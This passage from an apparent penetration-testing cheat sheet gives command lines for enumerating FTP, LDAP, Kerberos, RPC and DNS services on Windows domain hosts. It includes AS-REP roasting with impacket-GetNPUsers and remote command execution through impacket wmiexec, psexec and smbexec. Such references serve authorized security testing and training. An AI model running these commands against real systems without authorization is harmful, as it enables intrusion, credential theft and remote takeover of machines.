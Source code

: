 7) FTP (21)
```bash
# Check for anonymous and banner
nmap -p21 --script ftp-anon,ftp-syst,ftp-banner $TARGET

# Try anonymous login
ftp -inv $TARGET << 'EOF'
user anonymous anonymous@
ls -la
bye
EOF
```

8) LDAP/Kerberos/AD (389/636/88) on domain controllers
```bash
# LDAP anonymous rootDSE
nmap -p389 --script ldap-rootdse,ldap-search --script-args "ldap.username='',ldap.password=''" $TARGET
ldapsearch -x -H ldap://$TARGET -s base namingcontexts

# If you know the base DN
ldapsearch -x -H ldap://$TARGET -b "DC=example,DC=local" "(objectClass=user)" sAMAccountName | head

# User enumeration via Kerberos (timing-aware; may be allowed in lab)
kerbrute userenum -d $DOMAIN --dc $TARGET users.txt

# AS-REP roasting candidates (no preauth)
impacket-GetNPUsers $DOMAIN/ -dc-ip $TARGET -no-pass -usersfile users.txt
```

9) RPC/WMI quick checks
```bash
# RPC info
nmap -p135 --script rpcinfo $TARGET
impacket-rpcdump @${TARGET} | head

# With valid creds: Remote exec paths (choose one)
impacket-wmiexec $DOMAIN/$USER:"$PASS"@$TARGET "whoami"
impacket-psexec $DOMAIN/$USER:"$PASS"@$TARGET cmd.exe
impacket-smbexec $DOMAIN/$USER:"$PASS"@$TARGET "whoami"
```

10) DNS (if the host is a Windows DNS server)
```bash
# Basic zone checks (if allowed)
nslookup -type=soa $DOMAIN $TARGET
nslookup -type=ns $DOMAIN $TARGET
# Zone transfer test (often blocked)
dig AXFR $DOMAIN @$TARGET
```

Paths and references you’ll use often:
- Nmap NSE scripts: /usr/share/nmap/scripts/
- Wordlists: /usr/share/seclists/
- Impacket tools (Kali): /usr/bin/impacket-*
- Evil-WinRM (Kali): /usr/bin/evil-winrm
